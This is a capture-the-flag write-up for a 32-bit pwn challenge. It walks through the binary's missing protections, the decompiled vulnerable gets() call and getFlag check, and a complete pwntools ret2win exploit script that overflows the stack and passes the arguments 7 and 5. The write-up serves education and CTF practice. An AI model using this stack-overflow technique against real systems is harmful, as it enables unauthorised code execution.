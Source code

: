 # Additional Information Needed

{% hint style="info" %}
Category: PWN

Difficulty: medium
{% endhint %}

## Description

> **Author**: @Soups71\
> Another binary exploit challenge, but this time it's gonna take some more information for me to give you what you want.\
> **Attachments**: _challenge.elf_

## Solve Walkthrough

* This is a medium pwn challenge and I solve it after the challenge ended
* Same as `Echo` challenge before, we've to ret2win to `getFlag` function.
* First, let's check the ELF protection.

{% code overflow="wrap" %}
```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/2025/snykCTF/pwn/Additional_Information_Needed/challenge.elf'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
{% endcode %}

* Hmm, this is a **32-bit ELF binary** and **no protection at all**.
* Let's discover all function symbols using Ghidra.

<figure><img src="../../.gitbook/assets/img05.png" alt=""><figcaption></figcaption></figure>

* Here's the decompiled code of `main`  and `getFlag` function.

{% tabs %}
{% tab title="main" %}
```c
// main
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  char local_28 [32]; // 0x24 (HEX)
  
  buffer_init();
  puts("Welcome to this simple pwn challenge...");
  puts("All you have to do is make a call to the `getFlag()` function. That\'s it!");
  gets(local_28);
  return 0;
}
```
{% endtab %}

{% tab title="getFlag" %}
```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;

  // We've to pass this if statement!.
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}
```
{% endtab %}
{% endtabs %}

* In the disassembly of `getFlag` function, we've to pass if condition with multiply the value of `param_1` and `param_2`, so it will be equal to `0x23` (or 35 in decimal). We can do simple math, for example: `param_1` = **7** and `param_2` = **5**, so the output will be **35**.
* Here's my exploit script for this challenge.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3
#filename: exploit.py

"""INFO:
- The binary is x86 (32 bit) architecture.
- The buffer size is 0x24 (36 Bytes) + 0x4 (4 Bytes) for EBP = 40 Bytes.
- All we've to do is just return to `getFlag` function.
"""

from pwn import *

context.binary = elf = ELF("./challenge.elf", checksec=0)
context.log_level = "debug"

# 1. Prepare the payload.
win_addr = p32(elf.symbols['getFlag'])

payload = b"A"*0x24 #----------------< Junk.
payload += b"B"*0x4 #----------------< Old EBP.
payload += win_addr #----------------< Buffer address.
payload += b"C"*0x4 #----------------< Stack alignment.
payload += p32(0x7) #----------------< Param 1 = 7.
payload += p32(0x5) #----------------< Param 2 = 5.

"""Payload from p0np0n
# Link: https://www.youtube.com/watch?v=8wn7ue68vmE
payload = b"A"*40
payload += win_addr
payload += p32(0x41)
payload += p32(1) * 1
payload += p32(0x23)
"""

# Because all function args is placed into the stack.
# [     5     ] = function arg2 / ebp + 0xc
# [     7     ] = function arg1 / ebp + 0x8
# [ alignment ] = stack alignment / caller function
# [    ret    ] = win_addr / getFlag / ebp + 0x4
# [  old rbp  ] = 0x4
# [   buffer  ] = 0x24 / ebp - 0x4

# 2. Send the payload
is_remote = False # change to True if you want to run remotely.

if is_remote:
    io = remote("challenge.ctf.games", 30300)
else:
    io = elf.process()

io.sendline(payload)
io.interactive()
```
{% endcode %}

* Create a sample `flag.txt` file in your folder to execute the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><img src="../../.gitbook/assets/img06.png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>flag{8e9e2e4ec228db4207791e0a534716c3}</kbd>
